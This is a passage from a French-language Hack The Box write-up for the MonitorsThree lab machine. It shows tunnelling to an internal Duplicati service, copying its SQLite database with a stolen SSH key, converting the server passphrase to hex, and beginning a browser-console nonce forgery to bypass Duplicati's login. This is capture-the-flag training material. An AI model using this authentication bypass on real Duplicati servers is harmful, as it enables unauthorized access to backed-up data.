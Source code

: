 Nous devons faire du tunneling pour accéder à ces ports, j'ai utilisé [ligolo-ng](https://github.com/nicocha30/ligolo-ng/releases) pour le faire.

Seul le port `8200` est accessible, où nous trouvons une page de connexion [Duplicati](https://duplicati.com/).

> Duplicati est un logiciel de sauvegarde open-source conçu pour stocker en toute sécurité des sauvegardes de données.

![Duplicati login page](/images/HTB-MonitorsThree/duplicati_login.png)

En recherchant les vulnerabilités de Duplicati, nous trouvons [ici](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) un article sur Medium démontrant un contournement de l'authentification et une page Github détaillant les étapes pour reproduire l'exploit [ici](https://github.com/duplicati/duplicati/issues/5197).

![Exploit steps](/images/HTB-MonitorsThree/exploit_steps.png)

En inspectant le résultat de linpeas, nous constatons qu'il y a un répertoire Duplicati dans `/opt`.

![Duplicati opt directory](/images/HTB-MonitorsThree/duplicati_opt_directory.png)

Nous trouvons `Duplicati-server.sqlite` dans `/opt/duplicati/config`.

![Duplicati database file](/images/HTB-MonitorsThree/duplicati_db_file.png)

Avec `scp`, nous téléchargeons le fichier de la base de données, qui contient la phrase d'authentification du serveur.

```
scp -i id_rsa marcus@monitorsthree.htb:/opt/duplicati/config/Duplicati-server.sqlite /home/kscorpio/Machines/HTB/MonitorsThree
```

![Duplicati server passphrase](/images/HTB-MonitorsThree/server-passphrase.png)

Ensuite, nous convertissons la phrase d'authentification du serveur en HEX.

```
echo "Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=" | base64 -d | xxd -p
```

![server passphrase HEX conversion](/images/HTB-MonitorsThree/HEX_conversion.png)

```
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
```

Avec Burp, nous interceptons une requête de connexion et notons la valeur de `session-nonce`. Cette valeur sera différente pour chaque requête, et nous devons la décoder (Ctrl + U).

![Duplicati login request](/images/HTB-MonitorsThree/duplicati_login_request.png)

Dans le navigateur, nous ouvrons la console et utilisons la commande suivante

```
var noncepwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('url_decoded_nonce_value') + 'salted_hex_passphrase')).toString(CryptoJS.enc.Base64);
```
